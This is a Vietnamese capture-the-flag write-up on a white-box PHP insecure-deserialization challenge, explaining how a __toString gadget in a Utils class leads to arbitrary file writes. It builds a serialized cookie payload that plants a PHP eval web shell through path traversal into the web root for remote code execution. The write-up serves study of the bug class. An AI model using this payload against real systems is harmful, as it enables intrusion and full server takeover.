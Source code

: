 xin chào các bạn lại thêm 1 bài nữa sau khi kết thúc đợt tuyển mình đã học được thêm dạng này trên portswigger:<

Bài này là dạng white-box src file là php dạng deseria vul nha

src của file untils:  
![Alt text](image-10.png)
Như đánh giá thì bạn thấy được file này có class Untils
khởi tạo 2 giá trị private là $error và $logfile
ban đầu thì gán $this->logfile = "_error.log";

Trong này có hàm magic của hay gặp trong unserial là 
__toString() sẽ gọi phương thức writelog
hàm này sẽ chạy khi mà có một đối tượng nào đó biến thành string và cụ thể là ở trong file index.php
![Alt text](image-11.png)

+file writelog() sẽ thêm nội dung của $this->error vào file "/tmp/logs/".date('H_i_s').$this->logfile"

có vẻ như là vấn đề đã ở đây ở đây 
lướt qua file trainer.php
![Alt text](image-12.png)

hàm này sẽ khởi tạo các giá trị và các phương thức để lấy giá trị xuất ra từ cookie thông qua xử lý

file index.php 
![Alt text](image-13.png)
khi thực hiện method POST từ form sẽ tạo một đối tượng
   $user = new Trainer($name, $starter);
mình sẽ khai thác ở đây vì đây là giá trị mình có thể kiểm soát được

trong file cham.php chú ú một đoạn đã nhắc ở trên và
![Alt text](image-14.png)
có tác dụng sẽ khi nội dung vào file log

đầu tiên thì khi đổi giá trị isChampion thành 1
thì ta đươc fake-flag

ý tưởng :
    bây giờ sẽ tạo một class Trainer
class Trainer {
    public $name;
    public $starter;
    public $isChampion = 1;
}
và một class Utils vì trong kia fix cứng nên mình sẽ phải thay đổi giá trị của $error và $logfile 
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 

$trainer = new Trainer();
$util = new Utils();
$trainer->name=$util;
$serializedUser = serialize($user);
$base64encod = base64_encode($serializedUser)

Sau đó bạn gắn vào cookie và truy cập vào file nono.php đển remote code nha

Giai thích như sau:

đầu tiên thì gắn cookie vào thi sever nhận và decodeb64 ra sau đó thì unserialize
sẽ tạo ra một object và name thì có dạng: là một object của Utils sever lúc này sẽ ngộ nhận rằng đó là Utils đã định nghĩa và khi này dùng hàm encapse sẽ covert name sang string và thực thi phương thức write_log của Utils
sẽ ghi giá trị của error và0 logfile
class Utils {
    private $error="<?php eval(\$_GET['cmd']); ?>";
    private $logfile="../../../../../var/www/html/nono.php";

} 
Vì eval cũng là một hàm nhạy cảm cho nên sẽ biến đổi nó thành 1 lệnh hay một dòng code ví dụ:
eval("echo "hello";") sẽ in ra hello
và như này ta có hẳn 1 route_page để RCE

